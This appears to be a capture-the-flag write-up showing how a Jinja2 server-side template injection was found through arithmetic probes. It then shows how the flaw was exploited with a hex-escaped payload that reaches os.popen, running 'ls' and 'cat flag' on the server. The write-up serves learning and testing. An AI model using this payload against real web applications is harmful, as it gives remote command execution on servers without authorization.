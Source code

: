 Initial testing for Server-Side Template Injection (SSTI) involved injecting basic expressions like `{{7*7}}`, which returned `49`, confirming that the input was being evaluated by a server-side template engine. Further testing with `{{7*'7'}}` produced `7777777`, indicating that the engine supports Python-style operations such as string multiplication. According to PortSwigger’s SSTI decision tree, this pattern strongly suggests the use of the Jinja2 template engine, as it uniquely interprets expressions in this manner. These results confirm both the presence of an SSTI vulnerability and the underlying use of Jinja2.





<img width="640" height="386" alt="image" src="https://github.com/user-attachments/assets/1970a3c9-be16-4c1a-82b1-cfef04ab888c" />

Finally after testing 
 ```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|
attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|
attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|
attr('popen')('ls')|attr('read')()}}
```
<img width="671" height="374" alt="screenshot-1752556007" src="https://github.com/user-attachments/assets/8d9d1955-35f8-44c3-a0b3-a1472019a12c" />

Read the flag :p 
```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|
attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|
attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|
attr('popen')('cat flag')|attr('read')()}}
```


<img width="1886" height="300" alt="screenshot-1752555811" src="https://github.com/user-attachments/assets/d69fc194-10ea-41f5-9bef-e34969180c17" />


References 
https://github.com/swisskyrepo/PayloadsAllTheThings/pull/181/commits/7e7f5e762831266b22531c258d628172c7038bb9


<img width="1856" height="711" alt="screenshot-1752556145" src="https://github.com/user-attachments/assets/9cb016c0-9ea2-4a13-a199-22f6ad2e3897" />

